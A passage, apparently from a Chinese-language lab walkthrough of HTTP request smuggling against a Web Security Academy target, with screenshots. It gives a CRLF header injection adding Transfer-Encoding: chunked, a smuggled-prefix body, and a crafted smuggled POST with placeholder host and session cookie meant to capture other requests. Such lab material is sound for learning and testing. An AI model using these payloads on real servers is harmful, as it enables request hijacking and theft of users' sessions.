 ```plain
bar\r\n
Transfer-Encoding: chunked
```

[![](assets/1705287960-63ece9459e3555532ff6243a312f57f0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111104258-21a721b8-b02b-1.png)  
Body 部分如下所示：

```plain
0

SMUGGLED
```

随后我们可以看到发送的每第二个请求会收到一个 404 响应，由此可以确认我们已经让后端将后续请求附加到走私的前缀上

[![](assets/1705287960-1000b26bb162f9a635d70744209bc334.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111104325-319f4c30-b02b-1.png)  
随后构造如下请求数据包

```plain
0

POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Cookie: session=YOUR-SESSION-COOKIE
Content-Length: 800

search=x
```
